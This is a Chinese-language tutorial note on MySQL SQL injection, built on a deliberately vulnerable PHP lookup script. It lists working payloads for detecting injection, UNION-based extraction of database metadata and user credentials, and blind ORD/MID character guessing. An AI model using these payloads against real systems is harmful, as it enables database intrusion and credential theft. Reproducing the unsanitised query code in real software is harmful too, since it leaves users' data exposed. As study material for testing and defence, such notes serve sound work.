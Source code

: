 #MYSQL注入笔记
##判断注入类型
设数据库```security```里有如下```users```表。

```
mysql> desc users;
+----------+-------------+------+-----+---------+----------------+
| Field    | Type        | Null | Key | Default | Extra          |
+----------+-------------+------+-----+---------+----------------+
| id       | int(3)      | NO   | PRI | NULL    | auto_increment |
| username | varchar(20) | NO   |     | NULL    |                |
| password | varchar(20) | NO   |     | NULL    |                |
+----------+-------------+------+-----+---------+----------------+
3 rows in set (0.00 sec)
```
大致PHP代码如下

```
<?php
if(isset($_GET['id'])) {
	$id=$_GET['id'];
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);

    if($row) {
    	echo 'Your Login name:'. $row['username'];
    	echo "<br>";
    	echo 'Your Password:' .$row['password'];
    } else {
        print_r(mysql_error());
    }
} else {
	echo "Please input the ID as parameter with numeric value";
}
?>
```

###1. 文本型
```SELECT * FROM users WHERE id='$id' LIMIT 0,1;```

提交```?id=1' AND '1'='1```和```?id=1' AND '1'='2```来判断。
###2. 数字型
```SELECT * FROM users WHERE id=$id LIMIT 0,1;```

提交```?id=1 AND 1=1```和```?id=1 AND 1=2```来判断。
##构造注入SQL

###1. 猜解字段数

通过``` UNION ALL SELECT NULL```中的```NULL```来猜解表的字段数，例如对于```users```表采用```SELECT *```的话就需要把SQL构造成``` UNION ALL SELECT NULL, NULL, NULL#```，如果采用```SELECT username, password```就只需要``` UNION ALL SELECT NULL, NULL#```就能判断出了。因此如果程序中写的不是```SELECT *```的话，猜解出来的字段数与实际可能不太一样。

###1. 获取MySQL信息

如果想要获取数据库的一些信息可以利用已经显示出来的字段，在构造注入代码的时候将这些信息替换到已经显示的字段里。

例如对于```SELECT * FROM users WHERE id=1```，得到

```
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

对于```SELECT * FROM users WHERE id=1 UNION ALL SELECT NULL, CURRENT_USER(), NULL LIMIT 0,1;```，还是得到一样的结果。说好的数据库信息呢？

```
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | Dumb     | Dumb     |
+------+----------+----------+
1 row in set (0.00 sec)
```

所以还要对```SQL```语句稍加改造```SELECT * FROM users WHERE id=-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL LIMIT 0,1;```就可以得到想要的结果

```
+------+----------------+----------+
| id   | username       | password |
+------+----------------+----------+
| NULL | root@localhost | NULL     |
+------+----------------+----------+
1 row in set (0.00 sec)
```
因此如果网页上展示了username，那么就能直接得到当前连接数据库的用户名。因此我们提交的构造代码关键部分为```-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL```。另外需要注意的是构造出来的字段数要与原始正常```SQL```字段数相同。

* 获取当前连接数据库的用户名 ```-1 UNION ALL SELECT NULL, CURRENT_USER(), NULL```
* 获取当前数据库的名字	```-1 UNION ALL SELECT NULL, DATABASE(), NULL```
* 获取当前数据库的版本号 ```-1 UNION ALL SELECT NULL, VERSION(), NULL```
* 获取当前服务器上数据库数量 ```-1 UNION ALL SELECT NULL, (SELECT COUNT(*) FROM information_schema.SCHEMATA), NULL```
* 如果不能直接通过网页得到数据库数量，可以通过```1 AND ORD(MID((SELECT IFNULL(CAST(COUNT(DISTINCT(schema_name)) AS CHAR),CHAR(32)) FROM information_schema.SCHEMATA),1,1)) > ord('1') ```来猜解。
* 猜解表名```1 AND ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),CHAR(32))) FROM information_schema.SCHEMATA LIMIT 0,1),1,1)) > ord('a')``` 当猜解的字母的值只有```>=0```成功时，表示该表名猜解完成。（其中```LIMIT x,y```中```x```表示从第几条记录开始查询，```y```表示最多要查询多少条记录）。通过变动```MID```和```LIMIT```的参数就可以把所有表名猜解完。
* 猜解表的字段数 ```-1 UNION ALL SELECT NULL, (SELECT COUNT(*) FROM information_schema.COLUMNS where table_name='users' AND table_schema='security'), NULL``` 或 ```-1 UNION ALL SELECT NULL, IFNULL(CAST(COUNT(*) AS CHAR),CHAR(32)), NULL FROM information_schema.COLUMNS WHERE table_name=CHAR(117,115,101,114,115) AND table_schema=CHAR(115,101,99,117,114,105,116,121)```
* 逐个猜解字段 ```-1 UNION ALL SELECT NULL, CONCAT(column_name, ' ', column_type), NULL FROM information_schema.COLUMNS where table_name='users' AND table_schema='security' LIMIT 0,1``` 或 ```-1 UNION ALL SELECT NULL, NULL, CONCAT(IFNULL(CAST(column_name AS CHAR),CHAR(32)), ' ', IFNULL(CAST(column_type AS CHAR),CHAR(32))) FROM information_schema.COLUMNS WHERE table_name=CHAR(117,115,101,114,115) AND table_schema=CHAR(115,101,99,117,114,105,116,121) LIMIT 0,1```
* 猜解记录数```-1 UNION ALL SELECT NULL, NULL, IFNULL(CAST(COUNT(*) AS CHAR),CHAR(32)) FROM security.users```
* 逐个获取字段```-1 UNION ALL SELECT NULL, NULL, CONCAT(IFNULL(CAST(id AS CHAR),CHAR(32)), ' ',IFNULL(CAST(username AS CHAR),CHAR(32)), ' ', IFNULL(CAST(password AS CHAR),CHAR(32))) FROM security.users LIMIT 0,1```
